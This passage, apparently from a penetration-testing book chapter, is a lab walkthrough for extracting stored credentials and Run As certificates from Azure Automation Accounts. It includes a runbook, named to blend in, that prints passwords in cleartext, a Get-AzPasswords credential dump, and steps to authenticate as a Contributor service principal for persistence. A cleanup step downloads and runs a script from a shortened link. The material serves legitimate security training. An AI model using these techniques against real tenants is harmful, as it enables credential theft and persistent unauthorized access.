#### Automation Account 凭据提取概述

在高层次上，以下是我们将如何从 Automation Account 中提取存储的 Automation Account 凭据和 Run as 账户证书：

1. 首先，我们需要在账户中创建一个新的 runbook。理想情况下，我们会将其命名为通用名称，例如 `AzureAutomationTutorials`，以便融入其中。
2. 此 runbook 将把 Cred-1 凭据项转换为变量，然后将用户名和密码输出到作业输出：
   
   ```powershell
   $myCredential = Get-AutomationPSCredential -Name 'Cred-1'
   $userName = $myCredential.UserName
   $password = $myCredential.GetNetworkCredential().Password
   $userName
   $password
   ```
3. 我们将遵循类似的过程来导出附加的 Automation 账户 Run as 证书：

```powershell
$RunAsCert = Get-AutomationCertificate -Name 'AzureRunAsCertificate'
$CertificatePath = Join-Path $env:temp RunAsCertificate.pfx
```


```
$Cert = $RunAsCert.Export('pfx','CertificatePassword')
Set-Content -Value $Cert -Path $CertificatePath -Force -Encoding Byte | Write-Verbose
$base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('$CertificatePath'))
$base64string
```

4. 最后，我们可以查看作业输出以恢复凭据。证书可以从 Base64 字符串转换回 pfx 文件，并且存储的凭据应以明文形式可用。

通过这种方式编写输出，我们可能会无意中将环境凭据暴露给权限较低的用户。为了解决这个问题，Get-AzPasswords 函数会生成一个证书用于在传输过程中加密凭据。这可以防止旁观者从输出日志中以明文形式检索凭据。

让我们看看如何使用 MicroBurst 中的 Get-AzPasswords 函数来自动化该过程，以便进行下一次动手练习。

#### 动手练习 – 在测试 Automation 账户中创建 Run as 账户

由于 Run as 账户跨越了订阅和 Azure AD 的边界，我们无法以编程方式创建并将账户附加到新的 Automation 账户。幸运的是，完成此过程非常简单。以下是本练习中我们将完成的任务：

- Task 1: Create a Run as account for an Azure Automation account.

以下是完成此任务的步骤：

- 1. Log in as the azureadmin account, or as an owner of the subscription.
- 2. Navigate to the Automation Accounts section.
- 3. Either choose an existing Automation account or create a new one.
  If you're creating a new Automation account, a Run as account can be created along with the account.
- 4. Select Run as accounts from the menu blade.
- 5. Choose **Create Azure Run As Account** in the menu.



Figure 6.56 – Creating a Run as account

- 6. In the next window, select the **Create** button.

That is all that we need to do! Now we have a Run as service principal account to extract from our sample Automation account. By default, this account will have the Contributor role applied for the subscription that it is created in.

#### 动手练习 – 从 Automation 账户中提取存储的密码和证书

与其它示例类似，Get-AzPasswords 函数使我们能够非常轻松地从 Automation 账户收集凭据：

- 1. Using our previously configured Contributor account for an authenticated PowerShell session, use the Get-AzPasswords function to perform a dump of credentials for Automation accounts:

```
```powershell
Get-AzPasswords -AppServices N -StorageAccounts N -Keys N
-ACR N -CosmosDB N -Verbose | Out-GridView
```
```

2. When prompted to select an Azure subscription, select your test Azure subscription and click OK:



Figure 6.57 – Select the appropriate subscription

3. In the resulting output, you should see credentials that were dumped from the Automation account:



Figure 6.58 – Note the cleartext credential

4. Open the current path in File Explorer using the following command:

```
explorer .
```

5. Note that there are now two new files in the directory where the command was run from:



Figure 6.59 – Note the ps1 and pfx files

6. For proof of concept, run the AuthenticateAs-automation-acct-AzureRunAsConnection.ps1 script to log in as the RunAs account.


Figure 6.60 – Using the exported PowerShell script to authenticate

7. Use the following command to confirm the current user context:

```
(Get-AzContext).Account
```

The following shows a screenshot of the preceding command:


Figure 6.61 – Confirmation of the service principal authentication

We now have the cleartext credentials from the Automation account and a private certificate that we can use to authenticate as the Run as account. Since the Contributor role is configured for the Run as account by default, this means we will likely have a persistent Contributor account in the subscription.

- 3. In the PowerShell session within the Cloud Shell pane, run the following commands to download and verify the script to remove the resources created for the chapter scenarios:

```
```powershell
PS C:\> Invoke-WebRequest https://bit.ly/contributor-paas-scenarios-cleanup -O contributor-paas-scenarios-cleanup.ps1
PS C:\> Get-ChildItem
```
```

Here is a screenshot of what it looks like:


Figure 6.63 – Results of downloading the script

- 4. Run the downloaded script to remove the objects and resources that were created for the exercises in this chapter using the following command:

```
```powershell
PS C:\> ./contributor-paas-scenarios-cleanup.ps1
```
```

Wait for the script to complete. It may take about eight minutes to complete.

```
PS /home/azureadmin>
PS /home/azureadmin> ./contributor-paas-scenarios-cleanup.ps1
Cleanup Started 05/02/2021 18:58:07
######################################################################
#### Cleaning up role assignments #
######################################################################
######################################################################
#### Cleaning up identity objects #
######################################################################
######################################################################
#### Cleaning up resource group #
######################################################################
Successfully cleaned up resources!!
PS /home/azureadmin>
```

Figure 6.64 – Results of running the cleanup script

Congratulations! You have completed all the exercise scenarios in this chapter and successfully removed the resources that were set up from your subscription.

#### Summary

In this chapter, we covered a number of the PaaS services that are commonly used in Azure environments. As a key takeaway, remember that these services frequently contain credentials that can be used for lateral movement and privilege escalation, so make sure that you take the time to review these services during a penetration test. If you are in a rush, you can always use Get-AzPasswords for all of the available services and hope for the best.

While this chapter did not comprehensively cover all of the PaaS services, we hopefully covered the main ones that you will run into during testing. In the following chapter, we will review the steps that you can take as an owner of a subscription and show the ways that you can escalate from the Owner role to an Azure AD role.
